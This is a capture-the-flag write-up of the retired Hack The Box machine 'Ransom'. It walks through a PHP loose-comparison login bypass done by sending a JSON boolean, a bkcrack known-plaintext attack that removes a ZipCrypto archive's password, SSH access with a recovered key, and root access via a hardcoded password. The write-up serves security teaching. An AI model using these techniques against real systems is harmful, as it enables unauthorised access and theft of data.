 # Ransom

This is the write-up for the box Ransom that got retired at the 15th March 2022.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.153    ransom.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/ransom.nmap 10.10.11.153
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title:  Admin - HTML5 Admin Template
|_Requested resource was http://10.10.11.153/login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web service hosts a custom developed website with the title _"E Corp Incident Response Secure File Transfer"_ and has a login form to send files to the _E Corp Engineers_.

When sending the login request to a proxy like **Burpsuite**, it is possible to analyze it further.
```
GET /api/login?password=Test1 HTTP/1.1
(...)

Cookie: XSRF-TOKEN=eyJpdiI6IllvcXVkaUJBaGZSRWVSc(...); laravel_session=eyJpdiI6InNlazlNNzg2c3NTVjd0UlpM(...)
```

The cookie _laravel_session_ indicates that the web server uses the **Laravel framework**, which uses PHP in the background.

When sending no value in the _password_ parameter, it responds with JSON data:
```json
{
  "message":"The given data was invalid.",
  "errors":{
    "password":["The password field is required."
    ]
  }
}
```

By changing the _Content-Type_ to _application/json_ and sending the password in that format, it can be confirmed that JSON data is accepted:
```
GET /api/login HTTP/1.1
Content-Type: application/json
(...)

{
	"password":"password"
}
```

This way of sending data can be exploited by setting the variable to _true_:
```
{
	"password":true
}
```
```
Login Successful
```

After sending the request, the login is successful and the file transfer service contains a ZIP file with the description _"Encrypted Home Directory"_, that can be downloaded to analyze it.

## Analyzing ZIP File

When trying to decompress the ZIP file, it asks for a password.
The tool `7z` shows the included files and which encryption algorithm was used:
```
7z l -slt uploaded-file-3422.zip
```
```
Method = ZipCrypto Deflate
```

The **ZipCrypto** method has a vulnerability and the password can be found out with a **Known-Plaintext Attack**.
For this attack, we need to know the contents of one of the files in the archive.

As it is a home directory, there are default files in there like _bash_logout_, which is rarely modified, so it can be compared to ours and when the size is the same, it is likely that the contents are identical.

Creating a ZIP archive with our _bash_logout_ file:
```
zip bash_logout.zip bash_logout
```

If the _CRC_ is identical to the other one, then the contents are the same and the attack can be done:
```
7z l -slt bash_logout.zip

CRC = 6CE3189B
```

Using [bkcrack](https://github.com/kimci86/bkcrack) to get the plaintext password:
```
./bkcrack -C uploaded-file-3422.zip -c .bash_logout -P bash_logout.zip -p bash_logout
```

After a while it will create keys, which can be used to change the password of the ZIP file:
```
7b549874 ebc25ec5 7e465e18
```

Creating a new archive with our password:
```
./bkcrack -C uploaded-file-3422.zip -k 7b549874 ebc25ec5 7e465e18 -U unlocked.zip NewPass123
```

Decompressing the new archive _unlocked.zip_:
```
unzip unlocked.zip
```

In the folder _.ssh_ is a private SSH key for the user _htb@ransom_ that can be used to login:
```
ssh -i .ssh/id_rsa htb@10.10.11.153
```

## Privilege Escalation

The configuration file _/etc/apache2/sites-enabled/000-default.conf_ shows that the files of the web service are in _/srv/prod_.
In there the file _routes/api.php_ has the class name of the login form:
```
Route::get('/login', [AuthController::class, 'customLogin'])->name('apilogin');
```

In the file _app/Http/Controllers/AuthController.php_ is a static password:
```
($request->get('password') == "UHC-March-Global-PW!")
```

When testing the password with the command `su -` it is possible to switch users to root!
